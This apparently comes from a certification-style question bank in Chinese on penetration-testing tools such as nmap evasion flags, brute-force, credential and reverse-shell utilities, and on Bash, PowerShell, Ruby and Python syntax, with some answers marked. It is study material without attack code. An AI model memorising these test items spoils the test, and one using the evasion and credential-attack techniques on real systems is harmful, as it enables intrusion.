哪个选项会导致 `nmap` 同时将其输出保存为普通文本文件、XML 格式文本文件和可 Grep 搜索的文本文件？

1.  `-oX`
2.  `-oN`
3.  **`-oA`**
4.  `-oG`

## 36. 使用碎片包绕过防火墙

哪个选项会导致 `nmap` 使用微小的碎片数据包进行扫描，试图欺骗数据包过滤防火墙？

1.  **`-f`**
2.  `-Pn`
3.  `-n`
4.  `-sC`

## 37. 从欺骗 IP 地址发送扫描

哪个选项会导致 `nmap` 从欺骗的 IP 地址发送扫描？

1.  `-f`
2.  **`-D`**
3.  `-n`
4.  `-sF`

## 38. 扫描指定数量的随机主机

哪个选项会导致 `nmap` 扫描指定数量的随机主机？

1.  `-iL`
2.  `-sS`
3.  `-sR`
4.  **`-iR`**

## 39. 扫描 100 个最常用端口

哪个 `nmap` 选项会导致实用程序扫描主机的 100 个最常用 IP 端口，例如 20、21、23、25、53、80 等？

1.  `-p-`
2.  `-sV`
3.  **`-F`**
4.  `-p 100`

## 40. 通过代理服务器中继连接

哪个 `nmap` 选项会导致实用程序通过代理服务器中继连接？

1.  **`--proxies`**
2.  `-S`
3.  `-D`
4.  `-g`

## 41. 图像 c04f001.jpg 对应命令

考虑下图：



哪些 `nmap` 命令可能用于生成此输出？（选择两项。）

1.  **`nmap 10.0.0.1`**
2.  **`nmap 10.0.0.1 -sS`**
3.  `nmap 10.0.0.1 -sL`
4.  `nmap 10.0.0.1 -sn`

## 42. 图像 c04f002.jpg 对应命令

考虑下图：



哪个 `nmap` 命令可能用于生成此输出？

1.  `nmap 10.0.0.1 -PA`
2.  `nmap 10.0.0.1 -sT`
3.  **`nmap 10.0.0.1 -sL`**
4.  `nmap 10.0.0.1 -sn`

## 43. 图像 c04f003.jpg 对应命令

考虑下图：



哪个 `nmap` 命令可能用于生成此输出？

1.  `nmap 10.0.0.1`
2.  `nmap 10.0.0.1 -sS`
3.  **`nmap 10.0.0.1 -sU`**
4.  `nmap 10.0.0.1 -sT`

## 44. 图像 c04f004.jpg 对应命令

考虑下图：



哪个 `nmap` 命令可能用于生成此输出？

1.  **`nmap 10.0.0.1 -sA`**
2.  `nmap 10.0.0.1 -sS`
3.  `nmap 10.0.0.1 -sU`
4.  `nmap 10.0.0.1 -sT`

## 45. 图像 c04f005.jpg 对应命令

考虑下图：



哪个 `nmap` 命令可能用于生成此输出？

1.  `nmap 10.0.0.5 -v`
2.  `nmap 10.0.0.5 -sS`
3.  **`nmap 10.0.0.5 -sU`**
4.  `nmap 10.0.0.5 -sT`

## 46. 图像 c04f006.jpg 对应命令

考虑下图：



哪个 `nmap` 命令可能用于生成此输出？

1.  `nmap 10.0.0.5`
2.  `nmap 10.0.0.5 -sS`
3.  **`nmap 10.0.0.5 –sU -vv`**
4.  `nmap 10.0.0.5 –sT -v`

## 47. 图像 c04f007.jpg 对应命令

考虑下图：



哪个 `nmap` 命令可能用于生成此输出？

### 练习题

## 1-4. Nmap 扫描命令

1. `nmap 10.0.0.1-10`
2. `nmap 10.0.0.1-10 -sL`
3. `nmap 10.0.0.1-10 –Pn`
4. `nmap 10.0.0.1-10 –PS`

## 48. 图像分析：Nmap 命令识别



哪个 `nmap` 命令可能用于生成此输出？

1. `nmap 10.0.0.1-10`
2. `nmap 10.0.0.1-10 -sL`
3. `nmap 10.0.0.1-10 –sn`
4. `nmap 10.0.0.1-10 –PR`

## 49. 图像分析：Nmap 命令识别



哪个 `nmap` 命令可能用于生成此输出？

1. `nmap 10.0.0.1-10 –p 80`
2. `nmap 10.0.0.1-10 -F`
3. `nmap 10.0.0.1-10 –sn 80`
4. `nmap 10.0.0.1-10 –p-`

## 50. 图像分析：Nmap 扫描类型识别



哪个 `nmap` 命令可能用于生成此输出？

1. `nmap 10.0.0.5`
2. `nmap 10.0.0.5 -sS`
3. `nmap 10.0.0.5 –sV`
4. `nmap 10.0.0.5 –sT`

## 51. 被动信息收集工具选择

作为渗透测试的一部分，你需要对目标组织执行侦察以被动收集信息。你可以使用哪些工具来做到这一点？（选择两项。）

1. `whois`
2. Metasploit Framework
3. OpenVAS
4. `nslookup`
5. Nessus

## 52. 主动枚举与指纹识别工具选择

作为渗透测试的一部分，你需要与目标组织的计算机系统和设备建立主动连接以枚举和指纹识别它们。你可以使用哪些工具来做到这一点？（选择两项。）

1. `whois`
2. `nmap`
3. `hping`
4. Aircrack-ng
5. John the Ripper

## 53. Linux 凭证收集工具选择

作为渗透测试的一部分，你需要从 Linux 服务器的 `passwd` 和 `shadow` 文件中收集用户账户名和密码。你可以使用哪些实用程序来做到这一点？（选择两项。）

1. John the Ripper
2. Cain and Abel
3. Kismet
4. Censys
5. Recon-ng

## 54. 深度漏洞扫描工具选择

作为渗透测试的一部分，你需要对目标执行深度扫描以识别漏洞，例如缺失的更新或错误配置的安全设置。你可以使用哪些实用程序来做到这一点？

1. Censys
2. theHarvester
3. Shodan
4. OWASP ZAP
5. Nessus

## 55. SQL 数据库暴力破解工具

渗透测试人员正在为客户执行灰盒测试。测试人员决定对 SQL 数据库运行暴力破解攻击。可以使用哪个实用程序来做到这一点？

1. John the Ripper
2. SQLmap
3. WiFite
4. Nikto

## 56. Kerberos 黄金票据生成工具

渗透测试人员正在为客户执行灰盒测试。测试人员想要尝试生成 Kerberos“黄金票据”以破坏目标 Active Directory 域中的服务。可以使用哪个实用程序来做到这一点？

1. Mimikatz
2. John the Ripper
3. W3AF
4. `ncat`

## 57. 漏洞扫描器分类

以下哪些实用程序可归类为漏洞扫描器？（选择两项。）

1. Nikto
2. SET
3. W3AF
4. Medusa
5. Hydra

## 58. 暴力破解密码攻击工具

以下哪些常用于执行暴力破解密码攻击？（选择两项。）

1. BeFF
2. Drozer
3. W3AF
4. Medusa
5. Hydra

## 59. 暴力破解密码攻击工具（续）

以下哪些可用于执行暴力破解密码攻击？（选择两项。）

1. Empire
2. Patator
3. Powersploit
4. Aircrack-ng
5. APK Studio

## 60. 基于 Windows PowerShell 的渗透工具

以下哪些渗透工具基于 Windows PowerShell？（选择两项。）

1. BeEF
2. SET
3. Empire
4. PowerSploit
5. Hopper

## 61. 社会工程学攻击工具

哪个实用程序用于进行社会工程学攻击？

1. Responder
2. SET
3. APKX
4. Immunity debugger
5. Hopper

## 62. Web 浏览器攻击工具

哪个渗透测试实用程序专注于利用 Web 浏览器？

1. BeEF
2. foremost
3. FTK
4. EnCase
5. Tableau

## 63. Windows 远程 Shell 访问工具

作为渗透测试的一部分，你想访问目标 Windows 服务器上的 Shell 会话。可以使用哪个实用程序来做到这一点？

1. Ollydbg
2. GDB
3. WinDBG
4. `ncat`

## 64. 逆向工程反编译工具

作为渗透测试的一部分，你想反向编译目标组织使用的内部开发应用程序的可执行文件。可以使用以下哪些工具来做到这一点？（选择两项。）

1. IDA
2. Hopper
3. `route`
4. Tableau
5. FTK

## 65. 数字取证工具

以下哪些工具用于从数字犯罪现场收集和分析证据？（选择两项。）

1. APKX
2. Peach
3. foremost
4. AFL
5. FTK

## 66. 网络配置合规性工具

以下哪些工具可供系统管理员用来确保网络处于配置合规状态？

1. Nikto
2. Tableau
3. AFL
4. IDA Pro

## 67. 黑盒测试规避工具

在黑盒渗透测试期间，你需要使用规避技术来隐藏你在目标组织系统管理员面前的存在。你可以使用哪个工具来做到这一点？

1. YASCA
2. SonarQube
3. SAST
4. proxychains

## 68. Android 可执行文件调试/反编译工具

以下哪些工具可用于调试或反编译 Android 可执行文件？（选择两项。）

1. APK Studio
2. Olydbg
3. Immunity debugger
4. APKX
5. GDB

## 69. 模糊测试工具

以下哪些工具可用作软件保证过程的一部分，以对应用程序执行模糊测试？（选择两项。）

1. AFL
2. Olydbg
3. Immunity debugger
4. Peach
5. GDB

## 70. SAST 和 DAST 测试工具

以下哪些工具可用作软件保证过程的一部分，以执行 SAST 和 DAST 测试？（选择两项。）

1. Findsecbugs
2. YASCA
3. Metasploit
4. theHarvester
5. Recon-ng

## 71. 多 GPU 密码破解工具

作为渗透测试人员，你想通过构建安装了多块显卡的专用系统来提高密码破解速度。哪个工具可以利用多个 GPU 进行密码破解？

1. proxychains
2. John the Ripper
3. hashcat
4. theHarvester

## 72. 登录尝试日志分析

在渗透测试期间，系统管理员检查 Linux 服务器的日志，并注意到数千次不成功的登录尝试。渗透测试人员可能正在使用哪个工具？（选择两项。）

1. Hydra
2. YASCA
3. `nmap`
4. Tableau
5. Medusa

## 73. 图像分析：渗透测试工具识别




# 渗透测试工具与脚本语法题

## 73. 生成此输出使用了哪个渗透测试工具？

1. Maltego
2. Medusa
3. `netcat`
4. Metasploit

## 74. 网站爬取与密码列表生成

在执行黑盒渗透测试时，测试人员想要爬取目标组织的网站并收集可能被员工用作密码的关键字，并将它们保存到列表中。然后测试人员将使用该列表运行暴力破解密码实用程序以尝试获得访问权限。应使用哪个实用程序来创建可能的密码文件？

1. hashcat
2. CeWL
3. `netcat`
4. Hydra

## 75. Web 目录/文件暴力破解工具

以下哪个是渗透测试人员可用于发现 Web 服务器上目录和文件的暴力破解实用程序？

1. `ncat`
2. Powersploit
3. FOCA
4. Dirbuster

## 76. 图像分析：凭证测试工具识别



生成此输出使用了哪个凭证测试工具？

1. John the Ripper
2. Hydra
3. theHarvester
4. Dirbuster

## 77. 图像分析：OSINT 工具识别



生成此输出使用了哪个 OSINT 工具？

1. `whois`
2. Foca
3. Maltego
4. Censys

## 78. 无线网络攻击工具选择

作为黑盒渗透测试的一部分，你发现目标组织的无线网络信号辐射到停车场和街道对面。你想利用这个无线网络无线电信号访问内部网络。然而，无线网络是加密的。你可以使用哪些无线攻击工具来做到这一点？（选择两项。）

1. searchsploit
2. `netcat`
3. OWASP ZAP
4. WiFite
5. Kismet

# 渗透测试工具与脚本语法题

## 79. 灰盒渗透测试中的 Web 代理工具

在灰盒渗透测试期间，测试人员需要在目标组织的 Web 应用程序服务器和运行 Web 浏览器的客户端系统之间代理连接。测试人员可以使用哪些 Web 代理渗透测试工具来实现此目的？（选择两项。）

1. `searchsploit`
2. `Burp Suite`
3. `OWASP ZAP`
4. `Impacket`
5. `Empire`

## 80. 反向 Shell 远程访问工具

在灰盒渗透测试期间，测试人员希望能够设置反向 Shell 漏洞利用，其中目标网络上受损的系统“回连”到测试人员笔记本电脑上设置的监听器，以使测试人员能够远程控制受损系统。可以使用哪种远程访问工具来实现此目的？

1. `netcat`
2. `Responder`
3. `Impacket`
4. `BeEF`

## 81. Nmap 组织开发的加密 Netcat 替代品

哪种远程访问工具是由开发 `nmap` 的组织创建的，作为支持加密数据隧道的 `netcat` 实用程序的更新版本？

1. `Metasploit Framework`
2. `SET`
3. `hping`
4. `ncat`

## 82. 绑定 Shell 远程访问工具

在灰盒渗透测试期间，测试人员希望能够设置绑定 Shell 漏洞利用，其中在目标网络上受损的系统上设置监听器。可以使用哪些远程访问工具来实现此目的？

1. `ncat`
2. `netcat`
3. `Powersploit`
4. `DAST`
5. `SAST`

## 83. Android 攻击框架工具

哪种移动工具提供可用于利用运行 Android 操作系统的移动设备的攻击框架？

1. `APKX`
2. `APK Studio`
3. `Drozer`
4. `DAST`

## 84. APK 逆向工程工具

哪种移动工具可用于对运行 Android 操作系统的移动设备上的 APK 文件进行逆向工程？

1. `Peach`
2. `APK Studio`
3. `Drozer`
4. `DAST`

## 85. APK Java 源码提取工具

哪种移动工具是一个 Python 包装器，可以直接从 Android APK 可执行文件中提取 Java 源代码？

1. `APKX`
2. `AFL`
3. `Drozer`
4. `DAST`

## 86. Exploit-DB 命令行搜索工具

哪种渗透测试工具是在线 Exploit-DB 已知漏洞数据库的命令行搜索工具？

1. `findbugs`
2. `Shodan`
3. `Censys`
4. `Searchsploit`

## 87. 域控制器查询投毒工具

在灰盒渗透测试期间，测试人员想要投毒目标组织域控制器的查询，以将客户端请求重定向到测试人员的笔记本电脑并捕获用户名和哈希密码。可以使用哪种实用程序来实现此目的？

1. `Searchsploit`
2. `Empire`
3. `Impacket`
4. `Responder`

## 88. 网络协议底层访问工具

哪种渗透测试工具由一组用于低级访问网络协议（如 `SMB`）的 Python 类组成？

1. `Searchsploit`
2. `Empire`
3. `Impacket`
4. `Responder`

## 89. 大量漏洞利用集合框架

哪种渗透测试工具为渗透测试人员提供大量可用于攻破目标组织网络的漏洞利用？

1. `Metasploit Framework`
2. `SET`
3. `hping`
4. `ncat`

## 90. 变量声明语法：`ServerName = FS1`

在读取可执行脚本文件时，您在脚本开头附近看到一行使用以下语法声明变量：

* `ServerName = FS1`

这可能是什么类型的脚本？（选择两项。）

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

## 91. 变量声明语法：`$ServerName = FS1`

在读取可执行脚本文件时，您在脚本开头附近看到一行使用以下语法声明变量：

* `$ServerName = FS1`

这可能是什么类型的脚本？（选择两项。）

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

## 92. 变量声明语法：`_ServerName = FS1`

在读取可执行脚本文件时，您在脚本开头附近看到一行使用以下语法声明变量：

* `_ServerName = FS1`

这可能是什么类型的脚本？

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

## 93. 数组声明语法：`PrimeNumArray = [2, 3, 5, 7, 11]`

在读取可执行脚本文件时，您在脚本开头附近看到一行使用以下语法声明数组：

* `PrimeNumArray = [2, 3, 5, 7, 11]`

这可能是什么类型的脚本？（选择两项。）

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

## 94. 数组声明语法：`PrimeNumArray = (2, 3, 5, 7, 11)`

在读取可执行脚本文件时，您在脚本开头附近看到一行使用以下语法声明数组：

* `PrimeNumArray = (2, 3, 5, 7, 11)`

这可能是什么类型的脚本？

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

## 95. 数组声明语法：`$PrimeNumArray = @(2, 3, 5, 7, 11)`

在读取可执行脚本文件时，您在脚本开头附近看到一行使用以下语法声明数组：

* `$PrimeNumArray = @(2, 3, 5, 7, 11)`

这可能是什么类型的脚本？

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

## 96. 变量引用语法：`echo {$ServerName}`

在读取可执行脚本文件时，您在脚本开头附近看到一行使用以下语法引用变量的值：

* `echo {$ServerName}`

这可能是什么类型的脚本？

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

## 97. 数组引用语法：`echo {$PrimeNumArray[2]}`

在读取可执行脚本文件时，您在脚本开头附近看到一行使用以下语法引用数组的第二个值：

* `echo {$PrimeNumArray[2]}`

这可能是什么类型的脚本？

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

## 98. 数组引用语法：`echo $PrimeNumArray[2]`

在读取可执行脚本文件时，您在脚本开头附近看到一行使用以下语法引用数组的第二个值：

* `echo $PrimeNumArray[2]`

这可能是什么类型的脚本？

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

## 99. 数组引用语法：`print (PrimeNumArray[2])`

在读取可执行脚本文件时，您在脚本开头附近看到一行使用以下语法引用数组的第二个值：

* `print (PrimeNumArray[2])`

这可能是什么类型的脚本？

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

## 100. 数组引用语法：`puts PrimeNumArray[2]`

在读取可执行脚本文件时，您在脚本开头附近看到一行使用以下语法引用数组的第二个值：

* `puts PrimeNumArray[2]`

这可能是什么类型的脚本？

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

## 101. Bash 关联数组赋值

作为灰盒渗透测试的一部分，您需要创建一个 `Bash` 脚本以针对目标组织运行漏洞利用。作为脚本的一部分，您需要将值 `FS1` 插入到名为 `Target` 的关联数组中名为 `HostName` 的元素内。以下哪行代码可以实现此目的？

1. `Target[HostName] = FS1`
2. `Target = [{"HostName":"FS1"}]`
3. `$Target.HostName = 'FS1'`
4. `_Target = {"HostName" => "FS1"}`

## 102. Ruby 关联数组赋值

作为灰盒渗透测试的一部分，您需要创建一个 `Ruby` 脚本以针对目标组织运行漏洞利用。作为脚本的一部分，您需要将值 `FS1` 插入到名为 `Target` 的关联数组中名为 `HostName` 的元素内。以下哪行代码可以实现此目的？

1. `Target[HostName] = FS1`
2. `Target = [{"HostName":"FS1"}]`
3. `$Target.HostName = 'FS1'`
4. `_Target = {"HostName" => "FS1"}`

## 103. PowerShell 关联数组赋值

作为灰盒渗透测试的一部分，您需要创建一个 `PowerShell` 脚本以针对目标组织运行漏洞利用。作为脚本的一部分，您需要将值 `FS1` 插入到名为 `Target` 的关联数组中名为 `HostName` 的元素内。以下哪行代码可以实现此目的？

1. `Target[HostName] = FS1`
2. `Target = [{"HostName":"FS1"}]`
3. `$Target.HostName = 'FS1'`
4. `_Target = {"HostName" => "FS1"}`

## 104. Python 关联数组赋值

作为灰盒渗透测试的一部分，你需要创建一个 Python 脚本来针对目标组织运行漏洞利用。作为脚本的一部分，你需要将值 `FS1` 插入到名为 `Target` 的关联数组中名为 `HostName` 的元素内。以下哪行代码可以实现此功能？

1. `Target[HostName] = FS1`
2. `Target = [{"HostName":"FS1"}]`
3. `$Target.HostName = 'FS1'`
4. `_Target = {"HostName" => "FS1"}`

## 105. Ruby 相等比较运算符

作为灰盒渗透测试的一部分，你需要创建一个 Ruby 脚本来针对目标组织运行漏洞利用。作为脚本的一部分，你需要在两个变量之间进行比较以测试它们是否相等。应该使用哪个关系运算符？

1. `=`
2. `==`
3. `-eq`
4. `!=`

## 106. Python 不等比较运算符（多选）

作为灰盒渗透测试的一部分，你需要创建一个 Python 脚本来针对目标组织运行漏洞利用。作为脚本的一部分，你需要在两个变量之间进行比较以测试它们是否不相等。可以使用哪些关系运算符？（选择两项。）

1. `<>`
2. `==`
3. `-eq`
4. `!=`
5. `-ne`

## 107. Python 相等比较运算符

作为灰盒渗透测试的一部分，你需要创建一个 Python 脚本来针对目标组织运行漏洞利用。作为脚本的一部分，你需要在两个变量之间进行比较以测试它们是否相等。应该使用哪个关系运算符？

1. `=`
2. `==`
3. `-eq`
4. `!=`

## 108. PowerShell 相等比较运算符

作为灰盒渗透测试的一部分，你需要创建一个 PowerShell 脚本来针对目标组织运行漏洞利用。作为脚本的一部分，你需要在两个变量之间进行比较以测试它们是否相等。应该使用哪个关系运算符？

1. `=`
2. `==`
3. `-eq`
4. `!=`

## 109. Bash 整数大于比较运算符

作为灰盒渗透测试的一部分，你需要创建一个 Bash 脚本来针对目标组织运行漏洞利用。作为脚本的一部分，你需要在两个整数变量之间进行比较以测试其中一个在数值上是否大于另一个。应该使用哪个关系运算符？

1. `>`
2. `<`
3. `-gt`
4. `!>`

## 110. Python 和 Ruby 通用数值大于运算符

哪个关系运算符可以在 Python 和 Ruby 中同时用于测试一个值在数值上是否大于另一个值？

1. `>`
2. `<`
3. `-gt`
4. `!>`

## 111. Bash 和 PowerShell 通用数值大于等于运算符

哪个关系运算符可以在 Bash 和 PowerShell 中同时用于测试一个值在数值上是否大于或等于另一个值？

1. `>=`
2. `-gt`
3. `-ge`
4. `!>=`

## 112. Bash 和 PowerShell 通用数值大于运算符

哪个关系运算符可以在 Bash 和 PowerShell 中同时用于测试一个值在数值上是否大于另一个值？

1. `>=`
2. `-gt`
3. `-ge`
4. `!>=`

## 113. Python 和 Ruby 通用数值大于等于运算符

哪个关系运算符可以在 Python 和 Ruby 中同时用于测试一个值在数值上是否大于或等于另一个值？

1. `>=`
2. `-gt`
3. `-ge`
4. `!>=`

## 114. Bash 和 PowerShell 通用数值小于运算符

哪个关系运算符可以在 Bash 和 PowerShell 中同时用于测试一个值在数值上是否小于另一个值？

1. `<=`
2. `-lt`
3. `-le`
4. `!<`

## 115. Python 和 Ruby 通用数值小于运算符

哪个关系运算符可以在 Python 和 Ruby 中同时用于测试一个值在数值上是否小于另一个值？

1. `<=`
2. `-lt`
3. `-le`
4. `<`

## 116. Bash 和 PowerShell 通用数值小于等于运算符

哪个关系运算符可以在 Bash 和 PowerShell 中同时用于测试一个值在数值上是否小于或等于另一个值？

1. `<=`
2. `-lt`
3. `-le`
4. `!<`

## 117. Python 和 Ruby 通用数值小于等于运算符

哪个关系运算符可以在 Python 和 Ruby 中同时用于测试一个值在数值上是否小于或等于另一个值？

1. `<=`
2. `-lt`
3. `-le`
4. `!<`

## 118. Bash 用户输入赋值

你需要创建一个 Bash 脚本来针对目标组织运行漏洞利用。作为脚本的一部分，你需要提示用户输入一个值。哪个命令将接受用户输入的值并将其赋给名为 `TargetHost` 的变量？

1. `echo $TargetHost`
2. `read TargetHost`
3. `readln TargetHost`
4. `input $TargetHost`

## 119. Bash 显示变量值

作为灰盒渗透测试的一部分，你需要创建一个 Bash 脚本来针对目标组织运行漏洞利用。作为脚本的一部分，你需要在屏幕上显示名为 `TargetHost` 的变量的值。哪个命令可以实现此功能？

1. `echo $TargetHost`
2. `write TargetHost`
3. `writeln TargetHost`
4. `output $TargetHost`

## 120. Bash if/then 条件评估命令

哪个命令可以在 Bash 脚本的 `if/then` 流程控制结构中用于评估指定条件是否为真？

1. `eval`
2. `==`
3. `test`
4. `<>`


# 121. 识别脚本语言：Ruby

考虑以下脚本片段：

```
if _x > 2
   puts "x is greater than 2"
else
   puts "x is less than or equal to 2"
end
```

该片段是用哪种脚本语言编写的？

1.  Ruby
2.  PowerShell
3.  Bash
4.  Python

# 122. 识别脚本语言：PowerShell

考虑以下脚本片段：

```
If (x -eq 2) {
      'This number is 2'
   } Else {
      'This number is not 2'
}
```

该片段是用哪种脚本语言编写的？

1.  Ruby
2.  PowerShell
3.  Bash
4.  Python

# 123. 识别脚本语言：Bash

考虑以下脚本片段：

```
if test -f $FileName; then
    echo "The file exists."
else
    echo "The file does not exist."
fi
```

该片段是用哪种脚本语言编写的？

1.  Ruby
2.  PowerShell
3.  Bash
4.  Python

# 124. Bash 多选项分支控制结构

在 Bash 脚本中，你需要提示用户从 `echo` 命令显示的七个不同选项中选择一个。哪种控制结构最适合评估用户的输入并运行相应的命令集？

1.  `while` 循环
2.  `for` 循环
3.  `until` 循环
4.  `if/then/else`
5.  `case`

# 125. 条件为假时持续循环的控制结构

哪种控制结构将持续处理，直到指定条件评估为假？

1.  `while` 循环
2.  `for` 循环
3.  `until` 循环
4.  `if/then/else`
5.  `case`

# 126. 流程控制结构识别

哪种控制结构被视为流程控制结构？

1.  `while` 循环
2.  `for` 循环
3.  `until` 循环
4.  `if/then/else`

# 127. 条件为假时持续循环的控制结构（另一种表述）

哪种控制结构将持续处理，只要指定条件评估为假？

1.  `while` 循环
2.  `for` 循环
3.  `until` 循环
4.  `if/then/else`

# 128. 固定次数处理的控制结构

哪种控制结构将处理指定的次数？

1.  `while` 循环
2.  `for` 循环
3.  `until` 循环
4.  `if/then/else`
5.  `case`

# 129. PowerShell 用户输入赋值

你需要创建一个 PowerShell 脚本来提示用户输入一个值。哪个命令将接受用户输入的值并将其赋给名为 `TargetHost` 的变量？

1.  `TargetHost = input('Please enter a hostname:')`
2.  `read TargetHost`
3.  `TargetHost = gets`
4.  `$TargetHost = read-host -Prompt`

# 130. PowerShell 显示变量值

PowerShell 脚本中的哪个命令将导致其在屏幕上写入名为 `TargetHost` 的变量的值？

1.  `echo $TargetHost`
2.  `print (TargetHost)`
3.  `writeln TargetHost`
4.  `puts TargetHost`

# 131. Ruby 用户输入赋值

你需要创建一个 Ruby 脚本来提示用户输入一个值。哪个命令将接受用户输入的值并将其赋给名为 `TargetHost` 的变量？

1.  `TargetHost = input('Please enter a hostname:')`
2.  `read TargetHost`
3.  `TargetHost = gets`
4.  `$TargetHost = read-host -Prompt`

# 132. Ruby 显示变量值

Ruby 脚本中的哪个命令将导致其在屏幕上写入名为 `TargetHost` 的变量的值？

1.  `echo $TargetHost`
2.  `print (TargetHost)`
3.  `writeln TargetHost`
4.  `puts TargetHost`

# 133. Python 用户输入赋值

你需要创建一个 Python 脚本，提示用户输入一个值。哪个命令将接受用户输入的值并将其赋给名为 `TargetHost` 的变量？

1.  `TargetHost = input('Please enter a hostname:')`
2.  `read TargetHost`
3.  `TargetHost = gets`
4.  `$TargetHost = read-host -Prompt`

# 134. Python 显示变量值

Python 脚本中的哪个命令会将名为 `TargetHost` 的变量的值写到屏幕上？

1.  `echo $TargetHost`
2.  `print (TargetHost)`
3.  `writeln TargetHost`
4.  `puts TargetHost`

# 135. Bash 脚本必备元素

以下哪个元素必须包含在每个 Bash 脚本的开头？

1.  `#Comment`
2.  `#!/bin/bash`
3.  `exit 0`
4.  `#begin script`

# 136. 执行 Bash 脚本

你在 Linux 系统的主目录下创建了一个名为 `myexploit` 的 Bash 脚本。如何执行它？（选择两项。）

